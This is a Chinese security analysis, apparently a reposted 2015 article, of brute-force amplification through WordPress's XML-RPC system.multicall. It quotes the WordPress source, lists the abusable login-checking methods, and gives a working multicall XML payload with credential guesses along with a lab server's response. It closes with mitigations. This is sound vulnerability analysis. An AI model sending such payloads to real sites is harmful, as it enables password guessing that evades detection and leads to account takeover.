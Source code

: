 > 原文链接: https://www.anquanke.com//post/id/82690 


# WordPress 利用 XMLRPC 高效爆破 原理分析


                                阅读量   
                                **75059**
                            
                        |
                        
                                                                                    



[![](https://p1.ssl.qhimg.com/t01794378c4ea2a947d.jpg)](https://p1.ssl.qhimg.com/t01794378c4ea2a947d.jpg)

Author: RickGray (知道创宇404安全实验室)

Date: 2015-10-09

xmlrpc 是 WordPress 中进行远程调用的接口,而使用 xmlrpc 调用接口进行账号爆破在很早之前就被提出并加以利用。近日 SUCURI 发布文章介绍了如何利用 xmlrpc 调用接口中的 system.multicall 来提高爆破效率,使得成千上万次的帐号密码组合尝试能在一次请求完成,极大的压缩请求次数,在一定程度上能够躲避日志的检测。

一、原理分析

WordPress 中关于 xmlrpc 服务的定义代码主要位于 wp-includes/class-IXR.php 和 wp-includes/class-wp-xmlrpc-server.php 中。基类 IXR_Server 中定义了三个内置的调用方法,分别为 system.getCapabilities,system.listMethods 和 system.multicall,其调用映射位于 IXR_Server 基类定义中:



```
function setCallbacks()
`{`
    $this-&gt;callbacks['system.getCapabilities'] = 'this:getCapabilities';
    $this-&gt;callbacks['system.listMethods'] = 'this:listMethods';
    $this-&gt;callbacks['system.multicall'] = 'this:multiCall';
`}`
而基类在初始化时,调用 setCallbacks() 绑定了调用映射关系:
function __construct( $callbacks = false, $data = false, $wait = false )
`{`
    $this-&gt;setCapabilities();
    if ($callbacks) `{`
        $this-&gt;callbacks = $callbacks;
    `}`
    $this-&gt;setCallbacks();  // 绑定默认的三个基本调用映射
    if (!$wait) `{`
        $this-&gt;serve($data);
    `}`
`}`
```

再来看看 system.multicall 对应的处理函数:



```
function multiCall($methodcalls)
`{`
    // See http://www.xmlrpc.com/discuss/msgReader$1208
    $return = array();
    foreach ($methodcalls as $call) `{`
        $method = $call['methodName'];
        $params = $call['params'];
        if ($method == 'system.multicall') `{`
            $result = new IXR_Error(-32600, 'Recursive calls to system.multicall are forbidden');
        `}` else `{`
            $result = $this-&gt;call($method, $params);
        `}`
        if (is_a($result, 'IXR_Error')) `{`
            $return[] = array(
                'faultCode' =&gt; $result-&gt;code,
                'faultString' =&gt; $result-&gt;message
            );
        `}` else `{`
            $return[] = array($result);
        `}`
    `}`
    return $return;
`}`
```

可以从代码中看出,程序会解析请求传递的 XML,遍历多重调用中的每一个接口调用请求,并会将最终有调用的结果合在一起返回给请求端。

这样一来,就可以将500种甚至是10000种帐号密码爆破尝试包含在一次请求中,服务端会很快处理完并返回结果,这样极大地提高了爆破的效率,利用多重调用接口压缩了请求次数,10000种帐号密码尝试只会在目标服务器上留下一条访问日志,一定程度上躲避了日志的安全检测。

通过阅读 WordPress 中 xmlrpc 相关处理的代码,能大量的 xmlrpc 调用都验证了用户名和密码:



```
if ( !$user = $this-&gt;login($username, $password) )
        return $this-&gt;error;
```

通过搜索上述登录验证代码可以得到所有能够用来进行爆破的调用方法列表如下:

```
wp.getUsersBlogs, wp.newPost, wp.editPost, wp.deletePost, wp.getPost, wp.getPosts, wp.newTerm, wp.editTerm, wp.deleteTerm, wp.getTerm, wp.getTerms, wp.getTaxonomy, wp.getTaxonomies, wp.getUser, wp.getUsers, wp.getProfile, wp.editProfile, wp.getPage, wp.getPages, wp.newPage, wp.deletePage, wp.editPage, wp.getPageList, wp.getAuthors, wp.getTags, wp.newCategory, wp.deleteCategory, wp.suggestCategories, wp.getComment, wp.getComments, wp.deleteComment, wp.editComment, wp.newComment, wp.getCommentStatusList, wp.getCommentCount, wp.getPostStatusList, wp.getPageStatusList, wp.getPageTemplates, wp.getOptions, wp.setOptions, wp.getMediaItem, wp.getMediaLibrary, wp.getPostFormats, wp.getPostType, wp.getPostTypes, wp.getRevisions, wp.restoreRevision, blogger.getUsersBlogs, blogger.getUserInfo, blogger.getPost, blogger.getRecentPosts, blogger.newPost, blogger.editPost, blogger.deletePost, mw.newPost, mw.editPost, mw.getPost, mw.getRecentPosts, mw.getCategories, mw.newMediaObject, mt.getRecentPostTitles, mt.getPostCategories, mt.setPostCategories
```

这里是用参数传递最少获取信息最直接的 wp.getUsersBlogs 进行测试,将两次帐号密码尝试包含在同一次请求里,构造 XML 请求内容为:



```
&lt;methodCall&gt;
  &lt;methodName&gt;system.multicall&lt;/methodName&gt;
  &lt;params&gt;&lt;param&gt;
    &lt;value&gt;&lt;array&gt;&lt;data&gt;
      &lt;value&gt;&lt;struct&gt;
        &lt;member&gt;&lt;name&gt;methodName&lt;/name&gt;&lt;value&gt;&lt;string&gt;wp.getUsersBlogs&lt;/string&gt;&lt;/value&gt;&lt;/member&gt;
        &lt;member&gt;&lt;name&gt;params&lt;/name&gt;&lt;value&gt;&lt;array&gt;&lt;data&gt;
          &lt;value&gt;&lt;string&gt;admin&lt;/string&gt;&lt;/value&gt;
          &lt;value&gt;&lt;string&gt;admin888&lt;/string&gt;&lt;/value&gt;
        &lt;/data&gt;&lt;/array&gt;&lt;/value&gt;&lt;/member&gt;
      &lt;/struct&gt;&lt;/value&gt;
      &lt;value&gt;&lt;struct&gt;
        &lt;member&gt;&lt;name&gt;methodName&lt;/name&gt;&lt;value&gt;&lt;string&gt;wp.getUsersBlogs&lt;/string&gt;&lt;/value&gt;&lt;/member&gt;
        &lt;member&gt;&lt;name&gt;params&lt;/name&gt;&lt;value&gt;&lt;array&gt;&lt;data&gt;
          &lt;value&gt;&lt;string&gt;guest&lt;/string&gt;&lt;/value&gt;
          &lt;value&gt;&lt;string&gt;test&lt;/string&gt;&lt;/value&gt;
        &lt;/data&gt;&lt;/array&gt;&lt;/value&gt;&lt;/member&gt;
      &lt;/struct&gt;&lt;/value&gt;
    &lt;/data&gt;&lt;/array&gt;&lt;/value&gt;
  &lt;/param&gt;&lt;/params&gt;
&lt;/methodCall&gt;
```

将上面包含两个子调用的 XML 请求发送至 xmlrpc 服务端入口,若目标开启了 xmlrpc 服务会返回类似如下的信息:



```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;methodResponse&gt;
  &lt;params&gt;
    &lt;param&gt;
      &lt;value&gt;
      &lt;array&gt;&lt;data&gt;
  &lt;value&gt;&lt;array&gt;&lt;data&gt;
  &lt;value&gt;&lt;array&gt;&lt;data&gt;
  &lt;value&gt;&lt;struct&gt;
  &lt;member&gt;&lt;name&gt;isAdmin&lt;/name&gt;&lt;value&gt;&lt;boolean&gt;1&lt;/boolean&gt;&lt;/value&gt;&lt;/member&gt;
  &lt;member&gt;&lt;name&gt;url&lt;/name&gt;&lt;value&gt;&lt;string&gt;http://172.16.96.130/xampp/wordpress-4.3.1/&lt;/string&gt;&lt;/value&gt;&lt;/member&gt;
  &lt;member&gt;&lt;name&gt;blogid&lt;/name&gt;&lt;value&gt;&lt;string&gt;1&lt;/string&gt;&lt;/value&gt;&lt;/member&gt;
  &lt;member&gt;&lt;name&gt;blogName&lt;/name&gt;&lt;value&gt;&lt;string&gt;WordPress 4.3.1&lt;/string&gt;&lt;/value&gt;&lt;/member&gt;
  &lt;member&gt;&lt;name&gt;xmlrpc&lt;/name&gt;&lt;value&gt;&lt;string&gt;http://172.16.96.130/xampp/wordpress-4.3.1/xmlrpc.php&lt;/string&gt;&lt;/value&gt;&lt;/member&gt;
&lt;/struct&gt;&lt;/value&gt;
&lt;/data&gt;&lt;/array&gt;&lt;/value&gt;
&lt;/data&gt;&lt;/array&gt;&lt;/value&gt;
  &lt;value&gt;&lt;struct&gt;
  &lt;member&gt;&lt;name&gt;faultCode&lt;/name&gt;&lt;value&gt;&lt;int&gt;403&lt;/int&gt;&lt;/value&gt;&lt;/member&gt;
  &lt;member&gt;&lt;name&gt;faultString&lt;/name&gt;&lt;value&gt;&lt;string&gt;用户名或密码不正确。&lt;/string&gt;&lt;/value&gt;&lt;/member&gt;
&lt;/struct&gt;&lt;/value&gt;
&lt;/data&gt;&lt;/array&gt;
      &lt;/value&gt;
    &lt;/param&gt;
  &lt;/params&gt;
&lt;/methodResponse&gt;
```

从结果中可以看到在同一次请求里面处理了两种帐号密码组合,并以集中形式将结果返回,通过该种方式可以极大地提高帐号爆破效率。

二、防护建议

最新版 WordPress(4.3.1) 中仍存在该问题。多重调用(multicall)属于 xmlrpc 的标准,为了防止攻击者利用此点对网站发起爆破攻击,给出以下防护建议:

通过配置 Apache、Nginx 等 Web 服务器来限制 xmlrpc.php 文件的访问;

在不影响站点运行的情况下可以直接删除 xmlrpc.php 文件;

从官方插件库中安装 Disable XML-RPC 并启用;

添加代码 add_filter('xmlrpc_enabled', '__return_false');  至 WordPress 配置文件 wp-config.php;

参考链接

[https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html)

[https://pop.co/blog/protecting-your-wordpress-blog-from-xmlrpc-brute-force-amplification-attacks/](https://pop.co/blog/protecting-your-wordpress-blog-from-xmlrpc-brute-force-amplification-attacks/)

[http://www.deluxeblogtips.com/2013/08/disable-xml-rpc-wordpress.html](http://www.deluxeblogtips.com/2013/08/disable-xml-rpc-wordpress.html)
